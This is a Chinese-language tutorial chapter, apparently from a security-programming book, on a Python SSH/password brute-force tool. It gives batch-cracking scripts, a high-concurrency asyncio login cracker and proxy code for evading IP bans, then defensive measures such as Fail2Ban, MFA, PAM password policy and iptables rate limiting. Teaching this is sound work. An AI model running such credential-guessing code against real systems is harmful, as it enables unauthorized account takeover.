**2. 管道化批量破解**

```bash
# 使用脚本批量处理多个目标
while read target; do
    echo "[*] 破解 $target"
    python3 pycracker.py -t "$target" -p 22 --protocol ssh \
        -U users.txt -P pass.txt -T 10
done < targets.txt
```

**3. 结果持久化**

```bash
# 将输出重定向到日志文件
python3 pycracker.py -t 192.168.1.100 -p 22 --protocol ssh \
    -U users.txt -P pass.txt 2>&1 | tee crack_result_$(date +%Y%m%d).log
```

### 性能优化与工程化改进

#### 连接池复用

原始代码每次尝试都建立新连接，TCP 三次握手和协议认证开销巨大。改进方案是维护连接池：

```python
from contextlib import contextmanager
from queue import Queue

class SSHConnectionPool:
    """SSH 连接池 —— 复用 TCP 连接，减少握手开销"""

    def __init__(self, target, port, pool_size=5):
        self.target = target
        self.port = port
        self.pool = Queue(maxsize=pool_size)
        self._init_pool(pool_size)

    def _init_pool(self, size):
        """预创建连接"""
        for _ in range(size):
            client = paramiko.SSHClient()
            client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            # 仅建立 TCP 连接，不认证
            client.connect(
                self.target, port=self.port,
                username='probe', password='probe',
                timeout=5,
                allow_agent=False,
                look_for_keys=False
            )
            # 认证会失败，但 TCP 连接已建立
            # 实际实现中需要更精细的处理
            self.pool.put(client)

    @contextmanager
    def get_connection(self):
        """获取连接的上下文管理器"""
        client = self.pool.get()
        try:
            yield client
        finally:
            self.pool.put(client)
```

> **注意**：SSH 连接池实现较复杂，因为 paramiko 的认证状态绑定在连接上。更实用的做法是使用 `asyncio` + `asyncssh` 实现异步连接，本质原理相同但代码更简洁。

#### 异步版本（asyncio）

对于网络密集型任务，异步 I/O 比多线程更高效：

```python
import asyncio
import asyncssh

class AsyncSSHCracker:
    """异步 SSH 破解器 —— 单线程处理数百并发连接"""

    def __init__(self, target, port, concurrency=100):
        self.target = target
        self.port = port
        self.concurrency = concurrency
        self.found = None
        self.attempts = 0

    async def try_one(self, username, password, semaphore):
        """单次尝试"""
        async with semaphore:
            if self.found:
                return
            try:
                async with asyncssh.connect(
                    self.target, port=self.port,
                    username=username, password=password,
                    known_hosts=None
                ):
                    self.found = (username, password)
            except asyncssh.PermissionDenied:
                self.attempts += 1
            except Exception:
                pass

    async def crack(self, usernames, passwords):
        """并发执行所有尝试"""
        semaphore = asyncio.Semaphore(self.concurrency)
        tasks = [
            self.try_one(u, p, semaphore)
            for u in usernames
            for p in passwords
        ]
        await asyncio.gather(*tasks)
        return self.found
```

异步版本的关键优势：单线程可管理 100+ 并发连接（受文件描述符限制），而多线程版本线程数过多会导致上下文切换开销。性能对比：

| 并发模型 | 并发数 | 内存占用 | CPU 利用率 | 适用场景 |
|----------|--------|----------|-----------|----------|
| 多线程 (threading) | 10-50 | 高（每线程 ~8MB 栈） | 中等 | 少量并发，代码简单 |
| 线程池 (ThreadPoolExecutor) | 10-100 | 中等 | 中等 | 通用场景 |
| 异步 (asyncio) | 100-1000+ | 低（协程 ~2KB） | 高 | 大量并发网络 I/O |
| 多进程+异步 | 1000+ | 中等 | 最高 | 超大规模破解 |

#### 代理与匿名

在授权测试中，通过代理可以避免被目标 IP 封禁：

```python
import socks
import socket

def set_proxy(proxy_host, proxy_port, proxy_type='socks5'):
    """设置全局代理"""
    if proxy_type == 'socks5':
        socks.set_default_proxy(socks.SOCKS5, proxy_host, proxy_port)
    elif proxy_type == 'socks4':
        socks.set_default_proxy(socks.SOCKS4, proxy_host, proxy_port)
    elif proxy_type == 'http':
        socks.set_default_proxy(socks.HTTP, proxy_host, proxy_port)
    socket.socket = socks.socksocket

# 使用示例
# set_proxy('127.0.0.1', 1080, 'socks5')
```

### 防御视角：如何抵御密码破解

理解攻击是为了更好地防御。从防御者角度，以下是针对密码破解的核心对策：

#### 1. 账户锁定策略



实现示例（Fail2Ban 配置）：

```ini
# /etc/fail2ban/jail.ssh
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 5
bantime = 3600      # 封禁 1 小时
findtime = 600      # 10 分钟内累计 5 次失败触发
```

#### 2. 多因素认证（MFA）

仅靠密码无法保证安全。推荐的 MFA 方案优先级：

1. **硬件安全密钥**（YubiKey）：FIDO2/WebAuthn 协议，防钓鱼能力最强
2. **TOTP 动态令牌**（Google Authenticator）：基于时间的一次性密码
3. **短信验证码**：最弱的第二因素（存在 SIM Swap 攻击风险）

#### 3. 密码复杂度策略

```text
# 强密码策略示例（Linux PAM 配置）
# /etc/pam.d/common-password
password requisite pam_pwquality.so \
    minlen=12 \
    dcredit=-1 \       # 至少 1 个数字
    ucredit=-1 \       # 至少 1 个大写字母
    lcredit=-1 \       # 至少 1 个小写字母
    ocredit=-1 \       # 至少 1 个特殊字符
    maxrepeat=3 \      # 最多连续 3 个相同字符
    difok=5            # 新旧密码至少 5 个字符不同
```

#### 4. 网络层防护

| 防护措施 | 实现方式 | 效果 |
|----------|----------|------|
| IP 限速 | iptables --limit | 限制单 IP 连接频率 |
| 端口隐藏 | knockd | 端口敲门，仅授权后开放 SSH |
| VPN 限制 | WireGuard/OpenVPN | 仅 VPN 内网可访问管理端口 |
| 地理封锁 | GeoIP iptables | 禁止境外 IP 访问 SSH |
| 证书认证 | SSH Key-only | 禁用密码登录，仅允许密钥 |

```bash
# iptables 限速：每分钟最多 6 个新 SSH 连接
iptables -A INPUT -p tcp --dport 22 -m state --state NEW -m recent --set
iptables -A INPUT -p tcp --dport 22 -m state --state NEW \
    -m recent --update --seconds 60 --hitcount 6 -j DROP

# SSH 禁用密码认证（/etc/ssh/sshd_config）
PasswordAuthentication no
PubkeyAuthentication yes
MaxAuthTries 3
LoginGraceTime 30
```

### 常见错误与排查

#### 错误 1：`paramiko` 连接超时但目标端口实际开放

```text
[ERROR] SSH 连接失败: Connection timed out
```

**原因**：目标 SSH 服务使用了较旧的密钥交换算法，paramiko 默认不支持。

**解决**：在连接参数中指定允许的算法：

```python
client.connect(
    self.target, port=self.port,
    username=username, password=password,
    timeout=5,
    disabled_algorithms={
        'keys': ['rsa-sha2-256', 'rsa-sha2-512'],
    }
)
```

#### 错误 2：`requests` 版本 SSL 警告刷屏

```yaml
InsecureRequestWarning: Unverified HTTPS request is being made
```

**解决**：在脚本开头抑制警告：

```python
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```

#### 错误 3：MySQL 连接被拒绝但凭据正确

```text
pymysql.err.OperationalError: (1130, "Host 'x.x.x.x' is not allowed to connect")
```

**原因**：MySQL 用户仅允许 localhost 登录，远程连接被 `mysql.user` 表的 Host 字段拒绝。这不是凭据问题，应跳过目标。

#### 错误 4：线程数设置过高导致程序卡死

**原因**：线程数超过文件描述符限制（`ulimit -n`，默认 1024），新连接无法建立。

**解决**：

```bash
# 查看当前限制
ulimit -n

# 临时提高限制
ulimit -n 65535

# 永久设置（/etc/security/limits.conf）
* soft nofile 65535
* hard nofile 65535
```

### 扩展方向

本案例为基础版本，以下是值得探索的扩展方向：

1. **更多协议支持**：RDP、SMB、Telnet、SMTP、POP3、MongoDB、Redis
2. **密码哈希破解**：支持 MD5/SHA1/SHA256/bcrypt 等哈希的离线字典破解
3. **分布式破解**：多台机器协同破解，通过消息队列分发任务
4. **规则引擎**：集成 hashcat 规则文件，支持复杂的密码变换规则
5. **结果报告**：生成 HTML/PDF 格式的破解报告，包含统计图表
6. **智能跳过**：检测服务端限速/锁定机制，自动调整尝试频率

### 本节小结

| 知识点 | 核心内容 |
|--------|---------|
| 密码攻击策略 | 暴力破解 vs 字典攻击 vs 混合攻击，选择依据 |
| 在线 vs 离线 | 在线受网络延迟限制，离线可高速穷举 |
| 线程同步 | Queue 任务分发 + Lock 状态保护 + Event 终止信号 |
| 异常处理 | bare except 的危害，分类异常处理的必要性 |
| 字典优化 | 基于目标信息定制字典，l33t 变换，后缀规则 |
| 性能优化 | 异步 I/O vs 多线程，连接池复用 |
| 防御对策 | Fail2Ban + MFA + 密码策略 + 网络限速 + 密钥认证 |

本案例的核心收获不仅是一个可用的破解工具，更重要的是理解**并发编程的线程安全设计**、**网络协议的认证机制**、以及**攻击与防御的对称关系**。这些知识在安全工具开发之外的领域同样具有广泛应用价值。
